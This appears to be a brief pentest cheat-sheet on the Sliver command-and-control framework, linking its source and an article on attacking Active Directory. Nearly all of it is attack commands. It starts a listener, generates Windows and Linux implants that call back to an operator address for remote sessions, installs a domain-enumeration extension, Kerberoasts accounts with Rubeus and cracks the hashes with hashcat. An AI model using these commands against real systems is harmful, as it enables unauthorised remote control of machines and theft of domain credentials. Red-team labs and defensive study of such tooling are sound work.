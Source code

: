 https://github.com/BishopFox/sliver

https://rootsecdev.medium.com/hacking-active-directory-with-sliver-c2-19d7ceabbf13

```bash
./sliver-server_linux

# Generate Listener on Custom Port
http -l 8085

jobs

# Generate Implants
# Windows
generate --http <ip> --save #/home/path
# Linux
generate -a amd64 --format elf --http 10.10.14.13:8085 --os linux

sessions

use <session id>

armory

armory install c2tc-domaininfo
```

Using Rubeus to Kerberoast
```bash
rubeus -i kerberoast /nowrap

#Capture hash offline and crack
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt
```